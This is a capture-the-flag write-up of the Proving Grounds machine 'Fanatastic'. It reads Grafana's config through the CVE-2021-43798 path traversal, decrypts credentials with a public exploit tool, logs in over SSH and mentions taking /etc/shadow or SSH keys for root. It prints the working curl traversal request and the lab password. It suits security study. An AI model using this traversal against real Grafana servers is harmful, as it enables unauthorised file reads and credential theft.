# Fanatastic -- Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Fanatastic (Proving Grounds)
**Author:** dsec
**Date:** 2025-11-20

---

## TL;DR

### Grafana path traversal (CVE-2021-43798) to read config and decrypt credentials. SSH as sysadmin. Privesc by reading shadow/SSH keys.
---

## Target info

- Host: `192.168.145.181`
- Services discovered: `22/tcp (ssh)`, `3000/tcp (grafana)`

---

## Enumeration













---

## Foothold

Grafana path traversal (CVE-2021-43798):

```bash
curl --path-as-is "http://192.168.145.181:3000/public/plugins/alertlist/../../../../../../../../..//etc/grafana/grafana.ini"
```







Could not crack the first salted hash. Used the CVE exploit tool:

```bash
git clone https://github.com/jas502n/Grafana-CVE-2021-43798.git
```



- `SuperSecureP@ssw0rd`

```bash
ssh sysadmin@192.168.145.181
```



---

## Privilege escalation



Can get SSH key or `/etc/shadow` to get root user for exam.

---

## Lessons & takeaways

- Grafana CVE-2021-43798 allows reading arbitrary files via path traversal through plugin routes
- Grafana stores encrypted database credentials in `grafana.ini` -- the secret key is in the same file
- Always try to decrypt rather than crack when you have the encryption key
---
